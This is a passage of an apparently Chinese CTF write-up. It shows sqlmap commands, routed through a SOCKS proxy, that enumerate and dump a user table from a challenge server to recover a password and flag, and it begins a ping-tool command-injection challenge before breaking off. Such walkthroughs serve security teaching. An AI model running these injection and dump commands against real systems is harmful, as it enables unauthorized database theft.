 只有一个表单就是 user ，那么看来就是这个了，我们来看一下这个表单的列。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" -T "user" --columns
```

```
Database: web1
Table: user
[3 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| user   | varchar(20) |
| id     | int(3)      |
| pw     | varchar(20) |
+--------+-------------+
```

好吧，只有三列，那么最后一步，就是我们要注入出表单的内容了。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" -T "user" --dump-all
```

```
Database: web1
Table: user
[2 entries]
+----+----------------------+--------+
| id | pw                   | user   |
+----+----------------------+--------+
| 1  | user                 | user   |
| 2  | *75DBBA7B5806E761411 | flag   |
+----+----------------------+--------+
```

成功注出密码，与我们之前得到的密码一致。使用密码登陆即可得到 flag ，最终结果为 `Logged in! Flag: 5a2f5d8f-58fa-481b-a19f-9aab97ba6a4b`

### PING出事了吧
题目描述：

```
PING出事了吧
300

我刚做了一个Ping命令的小工具，快来试一下吧
```

打开页面，试验了一下确实能够 ping 到，开始我以为是 dvwa 里的命令执行漏洞，因为那个刚好也是用 ping 来做示例。
